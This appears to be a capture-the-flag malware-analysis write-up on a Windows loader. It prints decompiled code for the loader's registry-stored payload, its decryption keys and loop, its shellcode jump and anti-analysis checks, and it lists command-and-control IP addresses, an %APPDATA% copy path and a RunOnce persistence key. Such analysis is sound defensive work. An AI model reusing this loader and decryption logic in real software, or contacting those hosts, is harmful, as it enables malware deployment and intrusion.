

## 1. What is the first windows API used by the malware to allocate memory?
```bash
LPVOID __cdecl sub_4016B0(SIZE_T a1)
{
  HMODULE LibraryA; // eax
  LPVOID (__stdcall *VirtualAllocEx)(HANDLE, LPVOID, SIZE_T, DWORD, DWORD); // [esp+0h] [ebp-10h]
  SIZE_T v4; // [esp+4h] [ebp-Ch]

  v4 = a1;
  LibraryA = LoadLibraryA(LibFileName);
  VirtualAllocEx = (LPVOID (__stdcall *)(HANDLE, LPVOID, SIZE_T, DWORD, DWORD))GetProcAddress(LibraryA, ProcName);
  if ( a1 == 2 )
    v4 = 634880;
  return VirtualAllocEx((HANDLE)-1, 0, v4, dword_4CA00C, 64);
}
```
**VirtualAllocEx**

## 2. What does the second parameter given to RegOpenKeyA call point to?
- In main func, we found
```bash
get_RegOpenKeyA_addr();
    v1 = 0;
    subkey[5] = 92;                             // \
    subkey[6] = 123;                            // {

    if ( RegOpenKeyA_addr(HKEY_CURREN_USER - 1, subkey, &hKey) )
    {
      while ( v1 <= 0xE && RegOpenKeyA_addr(HKEY_CURREN_USER - 1, subkey, &hKey) )
        ++v1;
    }
```
- `get_RegOpenKeyA_addr` is just a renamed-func, it contains
```bash
LSTATUS (__stdcall *get_RegOpenKeyA_addr())(HKEY hKey, LPCSTR lpSubKey, PHKEY phkResult)
{
  LSTATUS (__stdcall *result)(HKEY, LPCSTR, PHKEY); // eax

  result = RegOpenKeyA;
  RegOpenKeyA_addr = (int (__cdecl *)(_DWORD, _DWORD, _DWORD))RegOpenKeyA;
  return result;
}
```
- This function just normally return the address of RegOpenKeyA winapi address, save it into global `RegOpenKeyA_addr` var (renamed)
- the above can be rewritten as following, (note that  HKEY_CURRENT_USER ((HKEY)(ULONG_PTR)((LONG)0x80000001)), then HKEY_CURRENT_USER -1 = HKEY_CLASSES_ROOT)
```bash
HKEY hKey;
int v1 = 0;

char subkey[] = "clsid\\{d66d6f99-cdaa-11d0-b822-00c04fc9b31f}";

if (RegOpenKeyA(HKEY_CLASSES_ROOT, subkey, &hKey))
{
    while (v1 <= 0xE && RegOpenKeyA(HKEY_CLASSES_ROOT, subkey, &hKey))
        ++v1;
}
```
- look like it try to check shell object. The CLSID `{d66d6f99-cdaa-11d0-b822-00c04fc9b31f}` belongs to Windows Script Host Shell Object (a COM object). That’s an ActiveX/COM object often abused by malware for execution or persistence (can launch scripts, shell commands, etc.).

**clsid\{d66d6f99-cdaa-11d0-b822-00c04fc9b31f}**

## 3. The malware dynamically resolves Windows API function names in memory, and decrypts a large blob of data, which function is responsible for grabbing the encrypted blobs? Provide address in hex
```bash
if ( RegOpenKeyA_addr(HKEY_CURRENT_USER - 1, subkey, &hKey) )
{
    while ( v1 <= 0xE && RegOpenKeyA_addr(HKEY_CURRENT_USER - 1, subkey, &hKey) )
        ++v1;
}

dword_4CA0C4 = (int)sub_4014F0();                // step 1: get pointer from registry
dword_4CA084 = sub_401180(dword_4CA0C4);          // step 2: read size/length
dword_4CA0C8 = (int)allocate_memory(dword_4CA084);// step 3: allocate RWX buffer
```
- After open the key, malware try to query a registry value repeatedly (RegQueryValueExA) from the opened CLSID key (hKey). Keeps retrying until the buffer (byte_4CA100) starts with 'M' and the second byte isn’t 'r'. Look like it’s looking for a value that starts with "MZ" (the PE file header). Fallback check: If values "T2" and "Y3" don’t exist, it points v5 at some strange location (&byte_40E389[-52345]). This is probably obfuscation or junk to confuse disassemblers.
```bash
v6 = RegQueryValueExA;
  v7 = (HKEY)hKey;
  v2 = 250;
  v4 = 1;
  v3 = (const CHAR *)&unk_4CA0D4;
  do
  {
    while ( v6(v7, v3, 0, (LPDWORD)&v4, (LPBYTE)&byte_4CA100, (LPDWORD)&v2) )
      ;
  }
  while ( byte_4CA100 != 77 || byte_4CA101 == 114 );
  if ( v6((HKEY)hKey, (LPCSTR)aT2, 0, (LPDWORD)&v4, (LPBYTE)&byte_4CA100, (LPDWORD)&v2)
    && v6((HKEY)hKey, (LPCSTR)aY3, 0, (LPDWORD)&v4, (LPBYTE)&byte_4CA100, (LPDWORD)&v2) )
  {
    v5 = &byte_40E389[-52345];
  }
```
- Also records module base (GetModuleHandleW(0)), and checks against some start value. That’s probably an anti-debug/anti-dump check (validating headers).
```bash
ModuleHandleW = GetModuleHandleW(0);
  dword_4CA0B8 = (int)ModuleHandleW;
  dword_4CA0E0 = *((_DWORD *)ModuleHandleW + 15);
  if ( ModuleHandleW >= (HMODULE)start
    || *(_DWORD *)((char *)ModuleHandleW + dword_4CA0E0 + 80) + dword_4CA0B8 <= (unsigned int)start )
  {
    dword_4CA0B8 = dword_4CA0BC;
    dword_4CA090 = 1;
  }
  else
  {
    dword_4CA090 = 0;
  }
```
- the full code after rename and analysis here
```bash
void __cdecl start(int a1)
{
  unsigned int v1; // [esp+4h] [ebp-14h]
  int v2; // [esp+10h] [ebp-8h]
  int savedregs; // [esp+18h] [ebp+0h] BYREF

  if ( LoadCursorA(0, (LPCSTR)0x142D) )
    sub_401130();
  v2 = ((int (__cdecl *)(WCHAR *, int, int, _DWORD, int, int, _DWORD))CreateFileW)(word_4CA044, 1, 3, 0, 3, 128, 0);
  if ( v2 == -1 || !v2 )
  {
    CreateFileW(word_4CA044, 1u, 3u, 0, 3u, 0x80u, 0);
    GetDriveTypeW(&RootPathName);
    if ( LoadCursorA(0, (LPCSTR)0x142D) )
      sub_401130();
    dword_4CA0BC = a1;
    dword_4CA09C = (int)&savedregs;
    dword_4CA080 = 131100;
    get_RegOpenKeyA_addr();
    v1 = 0;
    subkey[5] = 92;                             // \
    subkey[6] = 123;                            // {

    if ( RegOpenKeyA_addr(HKEY_CURREN_USER - 1, subkey, &hKey) )
    {
      while ( v1 <= 0xE && RegOpenKeyA_addr(HKEY_CURREN_USER - 1, subkey, &hKey) )
        ++v1;
    }
    mal_addr = (int)get_mal_addr();
    mal_size = read_size_prefix(mal_addr);
    allocated_addr = (int)allocate_memory(mal_size);
    mal_size_ = mal_size;
    wb_counter = 0;                             // written bytes counter
    offset_counter = 0;                         // read offset into mal_addr
    while ( 1 )                                 // decrypt loop
    {
      min(chunk, mal_size_);
      min(chunk, mal_size_);
      if ( wb_counter >= (unsigned int)mal_size )
        break;
      min(chunk, mal_size_);
      chunk = 68;
      junk_bytes = 31;
      dword_4CA08C = min(0x44u, mal_size_);
      dword_4CA0C0 = wb_counter + allocated_addr;
      memcpy(wb_counter + allocated_addr, offset_counter + mal_addr, dword_4CA08C);
      offset_counter += chunk + junk_bytes;
      wb_counter += chunk;
      mal_size_ -= dword_4CA08C;
    }
    decryption_shellcode(allocated_addr, mal_size);
    entry_point = allocated_addr + 0x86ED0;
    sub_401130();
  }
}
```
- or in pseudo code
```bash
// Step 1: get payload from registry
uint8_t *mal_addr = get_mal_addr();
size_t payload_size = read_size_prefix(mal_addr);

// Step 2: allocate buffer
uint8_t *dst = allocate_memory(payload_size);

// Step 3: selective copy (skip junk in source)
size_t written = 0, read = 0, remaining = payload_size;
while (written < payload_size)
{
    size_t chunk = min(68, remaining);

    memcpy(dst + written, mal_addr + read, chunk);

    read    += 68 + 31;  // skip 31 junk bytes each step
    written += 68;
    remaining -= chunk;
}

// Step 4: decrypt payload in-place
for (size_t i = 0; i < payload_size; i += 4)
{
    uint32_t *word = (uint32_t *)(dst + i);
    *word = (*word + i) ^ (i + 45238);
}

// Step 5: entrypoint pointer?
uint8_t *entry = dst + 552656;

// Step 6: execute (likely happens later)
```
- memcpy is the function we need here

**0x4011B0**

## 4. The malware uses a dynamic key for decryption, What is the initial decryption key used to decrypt the encrypted blobs (word size)?
```bash
int __cdecl decryption_shellcode(int allocated_addr, unsigned int mal_size)
{
  int result; // eax

  result = 0;
  for ( i = 0; i < mal_size; i += 4 )
  {
    current_addr = i + allocated_addr;
    *(_DWORD *)(i + allocated_addr) += i;
    result = decrypt_routine(3, i + 0xB0B6);
  }
  return result;
}
```

**0xb0b6**

## 5. What is the name of the first Windows API function decrypted
- after debugging, find the start of shellcode and we will collect from 0x401714, then reconstruct decyption routine, we will get the shellcode after decrypted

- or manually decrypt it
```bash
python test.py 
Assembled encrypted buffer size: 436084 bytes
Decrypted shellcode written to decrypted_shellcode.bin (436084 bytes).
Entry point at offset 0x86ED0 (552656 bytes).
```
```bash
strings decrypted_shellcode.bin | head -n 10
GetProcAddress
VirtualAlloc
VirtualFree
UnmapViewOfFile
VirtualProtect
LoadLibraryExA
GetModuleHandleA
CreateFileA
SetFilePointer
WriteFile
```

**GetProcAddress**

## 6. What is the address of the ret instruction responsible for jumping to decrypted shellcode?
- after decrypt shellcode into allocated memory, it plus 0x86ED0 offset to jump to entrypoint 
```bash
.text:004014B5                 mov     ecx, allocated_addr
.text:004014BB                 add     ecx, 86ED0h
.text:004014C1                 mov     entry_point, ecx
.text:004014C7                 mov     edi, edi
.text:004014C9                 mov     eax, offset sub_401130
```
- entrypoint then is moved to ecx and  jump to this address
```bash
text:00401150                 mov     ecx, entry_point
.text:00401156                 jmp     short loc_401164
.text:00401156 ; ---------------------------------------------------------------------------
.text:00401158                 db 8Bh, 0D2h
.text:0040115A                 db 8Bh, 0D2h
.text:0040115C                 db 8Bh, 0D2h
.text:0040115E                 db 8Bh, 0D2h
.text:00401160                 db 8Bh, 0D2h
.text:00401162                 align 4
.text:00401164
.text:00401164 loc_401164:                             ; CODE XREF: sub_401130+26↑j
.text:00401164                 push    ecx
.text:00401165                 jmp     short $+2
.text:00401167 ; ---------------------------------------------------------------------------
.text:00401167
.text:00401167 locret_401167:                          ; CODE XREF: sub_401130+35↑j
.text:00401167                 retn
```

**0x401167**

## 7. Based on the memory allocated by the malware, what is the offset of the first instruction executed after decryption? in hex
```bash
decryption_shellcode(allocated_addr, mal_size);
entry_point = allocated_addr + 0x86ED0;
jump_decypted_shellcode();
```

**0x86ed0**

## 8. What is the second API called by the malware after decryption?
```bash
int __cdecl sub_2316670(int a1)
{
  int result; // eax
  int v2; // [esp+0h] [ebp-30h]
  int v3; // [esp+0h] [ebp-30h]
  char v4[16]; // [esp+8h] [ebp-28h] BYREF
  char v5[16]; // [esp+18h] [ebp-18h] BYREF
  int v6; // [esp+28h] [ebp-8h]
  unsigned int i; // [esp+2Ch] [ebp-4h]

  strcpy(v4, "LoadLibraryExA");
  strcpy(v5, "kernel32.dll");
  v2 = sub_2316B80();
  v6 = (int)decryption_shellcode + sub_2316570();
  *(_DWORD *)(a1 + 28) = sub_2316580(v2);
  *(_DWORD *)(a1 + 48) = (*(int (__stdcall **)(int, char *))(a1 + 28))(v2, v4);
  result = (*(int (__stdcall **)(char *, _DWORD, _DWORD))(a1 + 48))(v5, 0, 0);
  v3 = result;
  for ( i = 0; i < 0xE; ++i )
  {
    result = (*(int (__stdcall **)(int, unsigned int))(a1 + 28))(v3, v6 + 17 * i);
    *(_DWORD *)(a1 + 4 * i + 28) = result;
  }
  return result;
}
```
**LoadLibraryExA**

## 9. The malware decrypts another part in memory with another dynamic key, what is the fixed addition value to the key in hex (word size)?
```bash
unsigned int __cdecl sub_22E6E80(int a1, unsigned int a2)
{
  unsigned int result; // eax
  unsigned int i; // [esp+0h] [ebp-4h]

  for ( i = 0; i < a2; i += 4 )
  {
    *(_DWORD *)(i + a1) += i;
    *(_DWORD *)(i + a1) ^= i + 0x3E9;
    result = i + 4;
  }
  return result;
}
```

**0x03e9**

## 10. There are 3 hardcoded IPs, list them in the format: IP1,IP2,IP3 (same order as found)
```bash
aConnectionDate db 'Connection:',0,'Date:',0,0,0,'Pragma:',0,'Transfer-Encoding:',0,0
.text:00410870                 db 'Upgrade:',0,0,0,0,'Via:',0,0,0,0,'%s%s',0,0,0,0,'Age:',0,0,0,0,'L'
.text:00410895                 db 'ocation:',0,0,0,'Proxy-Authenticate:',0,'Public:',0,'Retry-After:'
.text:004108C8                 db 0,0,0,0,'Server:',0,'Vary:',0,0,0,'Warning:',0,0,0,0,'WWW-Authenti'
.text:004108F4                 db 'cate:',0,0,0,'%s%s',0,0,0,0,'Content-Length:',0,'Transfer-Encodin'
.text:00410924                 db 'g:',0,0,'chunked',0,'0123456789ABCDEF',0,0,0,0,'0',9,'A',0,'-_.!~'
.text:0041094D                 db '*',27h,'()',0,0,0,'212.117.176.187',0,'rb',0,0,'79.133.196.94',0,0
.text:00410977                 db 0,'69.57.173.222',0,0,0,'controller=hash&mid=',0,0,0,0,'abcdefghij'
.text:004109AA                 db 'klmnopqrstuvwxyz0123456789',0,0,0,0,'1',0,0,0,'2',0,0,0,'update%s'
.text:004109D8                 db '.%s.com',0,'$%s&%s%s$',0,0,0,'?%c%c=%s',0,0,0,0,'Mozilla/5.0 (Win'
.text:00410A08                 db 'dows NT 6.1; WOW64; rv:2.0b8pre) Gecko/20101114 Firefox/4.0b8pre',0
.text:00410A49                 db 0,0,0,'GET',0,'Host: %s',0Dh,0Ah
```

**212.117.176.187,79.133.196.94,69.57.173.222**

## 11. What is the address of the function that perform anti analysis checks
```bash
char __stdcall sub_401B98(_DWORD *a1)
{
  char v1; // bl
  int v2; // eax
  int v3; // edi
  int v4; // ebx
  int i; // esi
  int v6; // ebx
  _DWORD *j; // esi
  int v8; // eax
  int v9; // eax
  int v10; // eax
  _DWORD v12[8]; // [esp+10h] [ebp-13Ch] BYREF
  _BYTE v13[4]; // [esp+30h] [ebp-11Ch] BYREF
  _BYTE v14[260]; // [esp+34h] [ebp-118h] BYREF
  int v15; // [esp+138h] [ebp-14h] BYREF
  int v16; // [esp+13Ch] [ebp-10h] BYREF
  int v17; // [esp+140h] [ebp-Ch]
  char v18; // [esp+147h] [ebp-5h]

  v1 = 0;
  v15 = 0;
  *a1 = 0;
  v2 = ((int (__cdecl *)(int, int))msvcrt_fopen)(4277520, 4277516);
  v3 = v2;
  if ( v2 )
  {
    v18 = ((int (__cdecl *)(int))loc_40149A)(v2);
    ((void (__stdcall *)(int))msvcrt_fclose)(v3);
    if ( v18 )
      return v1;
  }
  v17 = 0;
  v4 = ((int (__stdcall *)(int, _DWORD))kernel32_CreateToolhelp32Snapshot)(2, 0);
  if ( v4 != -1 )
  {
    v12[0] = 296;
    if ( ((int (__stdcall *)(int, _DWORD *))kernel32_Process32First)(v4, v12) )
    {
      do
      {
        for ( i = 4246984; i < 4249096; i += 64 )
        {
          if ( !((int (__cdecl *)(int, _BYTE *))msvcrt__strcmpi)(i, v14) )
            v17 += 100;
        }
      }
      while ( ((int (__stdcall *)(int, _DWORD *))kernel32_Process32Next)(v4, v12) );
      ((void (__stdcall *)(int))kernel32_CloseHandle)(v4);
      goto LABEL_13;
    }
    ((void (__stdcall *)(int))kernel32_CloseHandle)(v4);
  }
  v17 = 0;
LABEL_13:
  v6 = 0;
  for ( j = dword_40D224 + 996; (int)j < 4253584; j += 33 )
  {
    if ( !((int (__stdcall *)(_DWORD, _DWORD *, _DWORD, void *, int *))advapi32_RegOpenKeyExA)(
            *j,
            j + 1,
            0,
            &unk_20019,
            &v16) )
      v6 += 20;
    ((void (__stdcall *)(int))advapi32_RegCloseKey)(v16);
  }
  if ( (unsigned int)(v6 + v17) >= 0x1E )
  {
    while ( 1 )
      ;
  }
  v1 = sub_40188E();
  if ( v1 )
  {
    *a1 = 1;
  }
  else
  {
    v1 = sub_401B4E();
    if ( !v1 )
    {
      v1 = sub_401B13();
      if ( !v1 )
      {
        v1 = sub_40175A();
        if ( v1 )
        {
          *a1 = 2;
        }
        else
        {
          v16 = 260;
          sub_40B108((int)v13, 0, 260);
          ((void (__stdcall *)(_BYTE *, int *))kernel32_GetComputerNameA)(v13, &v16);
          v8 = ((int (__cdecl *)(_BYTE *, int))msvcrt__strcmpi)(v13, 4277172);
          v1 = v8 == 0;
          if ( v8 )
          {
            v16 = 260;
            sub_40B108((int)v13, 0, 260);
            ((void (__stdcall *)(_BYTE *, int *))advapi32_GetUserNameA)(v13, &v16);
            v9 = ((int (__cdecl *)(_BYTE *, int))msvcrt__strcmpi)(v13, 4277160);
            v1 = v9 == 0;
            if ( v9 )
            {
              sub_40B108((int)v13, 0, 260);
              ((void (__stdcall *)(_DWORD, _BYTE *, int))kernel32_GetModuleFileNameA)(0, v13, 260);
              v10 = ((int (__cdecl *)(_BYTE *, int))msvcrt__strcmpi)(v13, 4277148);
              v1 = v10 == 0;
              if ( v10 )
              {
                v1 = sub_401A4B();
                if ( v1 )
                {
                  *a1 = 6;
                }
                else
                {
                  v1 = sub_4018C2(&v15);
                  if ( v1 )
                    *a1 = 7;
                }
              }
              else
              {
                *a1 = 5;
              }
            }
            else
            {
              *a1 = 4;
            }
          }
          else
          {
            *a1 = 3;
          }
        }
      }
    }
  }
  return v1;
}
```

**0x401b98**

## 12. The malware will use completely different 3 IPs than the hardcoded ones, list them in order: 7x.xxx.xx.xxx,2xx.xx.xx.xx,1xx.xxx.xx.xxx
- sandbox analysis

**79.142.66.239,217.23.12.63,109.236.87.106**

## 13. To which Windows environment variable–based folder does the malware copy itself?
- done by sandbox analysis
```bash
0,0,'a+',0,0,' user_pref ( " general.useragent.extra.%[^"] " , " %'
.text:0041238C                 db '[^"] " ) ; ',0,'user_pref("general.useragent.extra.%s", "%s");',0Ah
.text:004123C7                 db 0,'%appdata%\ScanDisc.exe',0,0,'%appdata%',0,0,0,'%s\%X.reg',0,0,0
```
```bash
C:\Users\a\AppData\Roaming\1c9sKUOC.exe
```
- this is defualt path for %APPDATA%

**%APPDATA%**

## 14. What is the registry key the malware uses for persistence?
- dynamic sandbox analysis
```bash
HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce\1c9sKUOC
```

**HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce**

## 15. What is the argument the malware will launch itself with?
- sandbox analysis
```bash
regkey: HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce\1c9sKUOC
data: "C:\Users\a\AppData\Roaming\1c9sKUOC.exe" opt
```

**opt**